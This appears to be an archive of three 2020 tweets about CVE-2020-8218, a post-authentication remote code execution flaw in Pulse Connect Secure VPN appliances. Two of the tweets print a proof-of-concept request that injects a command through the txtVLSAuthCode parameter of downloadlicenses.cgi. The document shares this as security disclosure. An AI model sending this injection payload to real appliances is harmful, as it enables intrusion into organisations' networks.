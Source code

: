 
# jas502n
**https://twitter.com/jas502n/status/1300245292508307456 _at 2020-08-31, 01:33:29_**
<blockquote>
RCE in Pulse Connect Secure RCE (CVE-2020-8218) &lt; v9.1R8

POC:
https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever%20-n%20%27($x=%22ls%20/%22,system$x)%3b%20%23%27%20-e%20/data/runtime/tmp/tt/setcookie.thtml.ttc
 https://t.co/u56yPrxO6R
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1299964418256707586 _at 2020-08-30, 06:57:24_**
<blockquote>
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) https://t.co/wYv8IzMoFA
</blockquote>

* https://github.com//withdk//pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>90</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1299655751758221319 _at 2020-08-29, 10:30:52_**
<blockquote>
CVE-2020-8218 : Pulse Secure SSL-VPN post-auth RCE
Cc @chybeta

hxxps://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/okL58FZVJU https://t.co/OGxySMF4SM
</blockquote>
